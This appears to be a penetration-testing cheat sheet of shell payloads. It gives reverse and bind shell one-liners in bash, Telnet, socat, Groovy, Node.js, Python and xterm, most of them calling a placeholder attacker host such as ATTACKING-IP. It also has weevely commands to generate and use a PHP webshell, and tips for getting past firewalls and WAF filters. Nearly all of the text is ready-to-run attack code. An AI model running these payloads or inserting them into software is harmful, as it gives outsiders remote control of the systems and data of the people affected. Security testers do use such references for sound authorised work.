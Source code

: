 # Shells

## bash

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```



## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## socat

### bind

```bash
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

```bash
socat FILE:`tty`,raw,echo=0 TCP:localhost:1337
```

### reverse

```bash
socat TCP:10.0.3.4:1337 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

```bash
socat file:`tty`,raw,echo=0 TCP-LISTEN:1337
```

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using [weevely](https://github.com/epinna/weevely3) we can create php webshells:

```bash
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```bash
weevely "http://192.168.1.101/webshell.php" password
```

## Groovy

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Javascript

The following can be used as a general platform independent reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

**Source**: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
**Source**: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

## Python

There are a myriad of ways to spawn a shell in Python, and for the classic TCP reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with. I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).  

An example alternative protocol is a UDP shell, which can be used to bypass firewall rules in some environments:

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

## Xterm

Xterm sessions can also be used to retrieve a shell on a remote device.  This can be useful in cases where you've exploited a VNC instance, or in some cases if a WAF is restricting the character inputs you can do.  One of the benefits of spawning an xterm shell is that it is installed by default and has a short declaration syntax to spawn a shell.

For this you'll need xnest installed and a remote xterm client available. You can set up the listener on your own listener server using one of the following two commands:

```text
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```text
xhost +<remote ip>
```

On the remote machine you can then run:

```text
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.

